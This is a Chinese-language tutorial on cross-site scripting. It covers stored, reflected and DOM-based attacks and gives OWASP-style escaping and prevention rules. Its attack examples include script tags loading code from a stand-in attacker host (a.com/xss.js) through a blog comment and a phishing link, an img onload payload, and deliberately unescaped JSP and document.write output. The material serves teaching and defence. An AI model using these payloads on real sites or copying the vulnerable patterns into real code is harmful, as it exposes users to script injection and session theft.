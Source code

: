 跨站脚本攻击(XSS - Cross Site Scripting)
==原理==
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

更多攻击方式请参考：[https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

==分类==

<table>
  <tr>
    <th></th>
    <th colspan="3">风险代码存在于？</th>
  </tr>
  <tr>
    <th></th>
    <th>数据库中</th>
    <th>HTTP响应中</th>
    <th>浏览器构建的DOM中</th>
  </tr>
  <tr>
    <td>Stored XSS Attacks</td>
    <td>Yes</td>
    <td>Yes</td>
    <td>Yes</td>
  </tr>
  <tr>
    <td>Reflected XSS Attacks</td>
    <td></td>
    <td>Yes</td>
    <td>Yes</td>
  </tr>
  <tr>
    <td>DOM Based XSS</td>
    <td></td>
    <td></td>
    <td>Yes</td>
  </tr>
</table>



===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://a.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。

攻击流程示例：
<ol>
<li>恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：
<source>
 welcome <%=param["user"] %>!
</source>
</li>
<li>恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：
<source>
{系统B}温馨提醒您：XXX 想加您好友，请点击
<a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
进行处理！
</source>
</li>
<li>后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本</li>
</ol>


===DOM Based XSS===
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：
<source>
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
</source>

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点 

1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>

2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）
 



==防范XSS==
在Web应用中，XSS缺陷很难确认和移除，一些漏洞扫描工具也只能对浅层的扫描。最好的方式就是针对安全展开代码Review，并对所有来自HTTP请求的数据进行检查，如果请求中的数据有可能最终作为HTML显示，就需要做相应的处理。

==检查列表==
这里仅仅给出了部分摘要，更详尽列表请参看[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet XSS Prevention Cheat Sheet]：
<ul>
<li>RULE #0 - 不信任的数据只能插入到允许的位置
<p> 示例代码：
<source>
  <script>...NEVER PUT UNTRUSTED DATA HERE...</script>   直接放到script中
  &lt;!--...NEVER PUT UNTRUSTED DATA HERE...-->             在HTML注释中
  <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       在属性名中
  <NEVER PUT UNTRUSTED DATA HERE... href="/test" />      在标签名中
  <style>...NEVER PUT UNTRUSTED DATA HERE...</style>     直接在CSS中
</source>
</p>
</li>

<li>RULE #1 - 插入HTML内容时要先转义
HTML特殊字符转义
<source>
 &amp; --&gt; &amp;amp;
 &lt; --&gt; &amp;lt;
 &gt; --&gt; &amp;gt;
 &quot; --&gt; &amp;quot;
 &#x27; --&gt; &amp;#x27;
 / --&gt; &amp;#x2F; 这里包含了斜杠，因为它在结束一个标签时有用
</source>
</li>

<li>RULE #2 - 插入标签的属性值前要先转义

</li>

<li>RULE #3 - 将不信任的数据插入到JavaScript前要先转义</li>
<li>RULE #3.1 - 在HTML中对JSON的值进行HTML转义，以及使用 JSON.parse 读取数据</li>
<li>RULE #4 - 对CSS转义，以及对HTML元素的sytle设置值前要进行充分的检查</li>
<li>RULE #5 - 在插入URL数据前要先URL转义</li>
<li>RULE #6 - 在输出用户输入的HTML内容时，要使用HTML策略引擎进行验证或移除其中的风险代码</li>
<li>RULE #7 - 要预防 DOM-based XSS</li>
<li>RULE #8 - 使用 [https://www.owasp.org/index.php/HTTPOnly HTTPOnly cookie]</li>


</ul>
==DOM Based XSS 检查列表==
[https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet 参考]
<ul>
<li>RULE #1 - 在可以执行JavaScript的环境中，要对不信任的数据先 HTML 转义，再 JavaScript 转义</li>
<li>RULE #2 - 在可以执行JavaScript的环境中，为HTML元素的属性设置值前要先进行 JavaScript 转义</li>
<li>RULE #3 - 在可以执行JavaScript的环境中，设置事件处理函数等地方需要特别注意</li>
<li>RULE #4 - 在插入CSS属性时需要先进行 JavaScript 转义</li>
<li>RULE #5 - 在插入URL前要先进行URL转义</li>
</ul>

==工具==
* [https://www.owasp.org/index.php/Category:OWASP_AntiSamy_Project OWASP AntiSamy]
* [http://www.cirt.net/nikto2 Nikto2] - 开源的Web服务器扫描工具
* [http://www.tenable.com/products/nessus nessus] - 漏洞扫描工具
* [http://wpl.codeplex.com/ Microsoft Web Protection Library] - .Net 平台下的安全工具
* [http://msdn.microsoft.com/en-us/library/ms972969.aspx#securitybarriers_topic6 ValidateRequest] - .Net 平台内建功能，可以提供部分安全保护措施
* [https://www.owasp.org/index.php/ESAPI OWASP ESAPI] - OWASP Enterprise Security API

参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)